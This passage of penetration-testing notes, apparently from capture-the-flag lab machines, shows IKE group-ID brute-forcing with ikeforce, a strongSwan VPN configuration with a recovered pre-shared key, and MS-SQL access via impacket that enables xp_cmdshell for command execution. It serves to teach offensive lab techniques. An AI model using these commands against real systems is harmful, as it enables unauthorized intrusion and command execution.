 to bruteforce:
```
python ikeforce.py 10.10.10.116 -e -w /usr/share/wordlists/seclists/Miscellaneous/ike-groupid.txt
```
## 5 connecting
### strongswan
vpn stuff for linux

* /etc/ipsec.conf
```
conn Conceal
        type=transport
        keyexchange=ikev1
        right=10.10.10.116
        authby=psk
        rightprotoport=tcp
        leftprotoport=tcp
        esp=3des-sha1
        ike=3des-sha1-modp1024
        auto=start
```
* /etc/ipsec.secrets
```
10.10.10.116 : PSK "Dudecake1!"
```

* stop
```
ipsec stop
```
* start
```
ipsec start --nofork
```

#  MS-SQL
### 1433
---
## impacket
```
mssqlclient.py -windows-auth reporting@10.10.10.125
SQL>
```
## shell
```
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami

querier\mssql-svc
```
